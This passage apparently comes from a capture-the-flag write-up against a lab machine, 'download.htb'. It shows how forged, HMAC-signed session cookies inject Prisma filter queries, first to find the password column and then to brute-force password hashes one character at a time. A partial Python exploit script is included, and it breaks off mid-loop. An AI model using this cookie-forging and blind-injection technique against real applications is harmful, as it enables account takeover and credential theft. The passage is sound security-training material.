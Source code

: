 ```

```

There are 27 files from 16 unique users.

I’ll spend some time reading each of the files, but nothing interesting comes from it.

#### Identify Password Column

Presumable the user object in the database has a field storing the password (likely a password hash). If I put in a query with a bad column name, the application crashes and a 502 comes back. For example, if I try `{"user":{"hash":{}}}`, that makes a cookie of `eyJ1c2VyIjp7Imhhc2giOnt9fX0=` and a sig of `o8bjoAGTBkr0Gwr62EwKyGD4wC4`. When I send that, it crashes:

![image-20231107152611960](https://0xdf.gitlab.io/img/image-20231107152611960.png)

However, if I change it to `{"user":{"password":{}}}`, it returns all the documents:

![image-20231107152812106](https://0xdf.gitlab.io/img/image-20231107152812106.png)

That means the correct column name is password, and its showing all the documents with a user that has any password!

#### Brute Force Password

The [Prisma documentation](https://www.prisma.io/docs/concepts/components/prisma-client/filtering-and-sorting) shows examples that use things like `{"password": {startsWith: "a"}}`. If that works here, I can use that to brute force the password character by character. I found for it to work, I had to put `startsWith` in double quotes, but it does work. For example, `{"user":{"password":{"startsWith": "1"}}}` returns documents from both Tabific and AyufmApogee:

![image-20231107153428075](https://0xdf.gitlab.io/img/image-20231107153428075.png)

With this together, I can brute force passwords for users with this script:

```
import hashlib
import hmac
import requests
import sys

KEY = b"8929874489719802418902487651347865819634518936754"
HEX_CHARS = '0123456789abcdef'

def make_cookies(user_id, password):
    pt_cookie = f'{{"user": {{"id": {user_id}, "password": {{"startsWith": "{password}"}}}}}}'
    enc_cookie = base64.b64encode(pt_cookie.encode()).decode()
    full_cookie_b = f'download_session={enc_cookie}'
    digest = hmac.new(KEY, full_cookie_b.encode(), hashlib.sha1).digest()
    sig = base64.urlsafe_b64encode(digest).decode().rstrip("=")

    return {"download_session": enc_cookie, "download_session.sig": sig}

if len(sys.argv) == 1:
    user_id = 1
else:
    user_id = int(sys.argv[1])

password = ""
while True:
    done = True
    for c in HEX_CHARS:
        cookies = make_cookies(user_id, password + c)
        print(f"\r{password}{c}", end="")
        resp = requests.get('http://download.htb/home/', cookies=cookies)
        if "No files found" not in resp.text:
```